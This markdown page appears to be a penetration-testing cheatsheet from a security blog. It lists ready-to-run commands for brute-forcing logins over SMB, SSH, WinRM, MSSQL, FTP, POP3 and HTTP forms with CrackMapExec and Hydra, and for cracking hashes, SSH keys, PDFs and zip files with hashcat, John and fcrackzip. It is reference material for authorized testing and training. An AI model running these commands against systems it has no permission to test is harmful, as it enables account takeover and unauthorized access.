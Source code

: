 ```yaml
---
layout: commands
title: Brute Force
date: 2020-08-10
preview: Cheatsheet for brute force attacking
categories: 
    - "commands"
    - "pentest"
    - "enumeration"
---
```


# Brute force services

## CrackMapExec

### SMB

SMB with username and password - Use to confirm

```bash
crackmapexec smb $TARGETIP -u 'username' -p 'password'
```

SMB known username with wordlist

```bash
crackmapexec smb $TARGETIP -u 'username' -p /path/to/file
```

SMB with user and password list

```bash
crackmapexec smb $TARGETIP -u /path/to/file -p /path/to/file
```

### SSH

SSH with username and password - Use to confirm

```bash
crackmapexec ssh $TARGETIP -u 'username' -p 'password'
```

SSH known username with wordlist

```bash
crackmapexec ssh $TARGETIP -u 'username' -p /path/to/file
```

SSH with user and password list

```bash
crackmapexec ssh $TARGETIP -u /path/to/file -p /path/to/file
```

### WinRM

WINRM with username and password - Use to confirm

```bash
crackmapexec winrm $TARGETIP -u 'username' -p 'password'
```

WINRM known username with wordlist

```bash
crackmapexec winrm $TARGETIP -u 'username' -p /path/to/file
```

WINRM with user and password list

```bash
crackmapexec winrm $TARGETIP -u /path/to/file -p /path/to/file
```

### MSSQL

MSSQL with username and password - Use to confirm

```bash
crackmapexec mssql $TARGETIP -u 'username' -p 'password'
```

MSSQL known username with wordlist


```bash
crackmapexec mssql $TARGETIP -u 'username' -p /path/to/file
```

MSSQL with user and password list

```bash
crackmapexec mssql $TARGETIP -u /path/to/file -p /path/to/file
```

## Hydra

### SSH

```bash
hydra -t 4 -l <USER> -P <PASSWORD> ssh://$TARGETIP
```

### SMB

```bash
hydra -t 4 -l <USER> -P <PASSWORD> smb://$TARGETIP
```

### POP3

```bash
hydra -t 4 -l <USER> -P <PASSWORD> pop3
```

### FTP

```bash
hydra -t 4 -l <USER> -P <PASSWORD> ftp
```

### HTTP WebDav

```bash
hydra -l webdav -P <WORDLISTS> -s 80 -f $TARGETIP http-get /webdav
```

### HTTP Form

```bash
hydra -l "user" -P <WORDLISTS> $TARGETIP http-post-form /
"/path?FormVariables=Value&:UserFormField=^USER^&PasswordFormField=^PASS^:F=MessageOnFailure" -V
```

## HTTP

See <a href="/blog/2020/08/10/http-enumeration">HTTP/S Enumeration Cheatsheet</a>


# Brute force passwords

## Password List

### Rockyou

```bash
/usr/share/wordlists/rockyou.txt
```

## Hashcat

### MD5

```bash
hashcat -m 0 -a 0 -o /path/to/results /path/to/hashfile /path/to/wordlist
```

### SHA1

```bash
hashcat -m 100 -a 0 -o /path/to/results  /path/to/hashfile /path/to/wordlist
```

Modes [https://hashcat.net/wiki/doku.php?id=hashcat](https://hashcat.net/wiki/doku.php?id=hashcat)

## John

### Hash

```bash
john --wordlist=/path/to/file /path/to/hashes
```

### Show
```bash
john --show /path/to/hashes
```

### Convert for John

Folder

```bash
/usr/share/john/
```

SSH private key

```bash
/usr/share/john/ssh2john.py
```

Encrypted PDF

```bash
/usr/share/john/pdf2john.pl
```

## FCrackZip

### Zip file

```bash
fcrackzip -u -D -p <WORDLIST> <FILE>
```

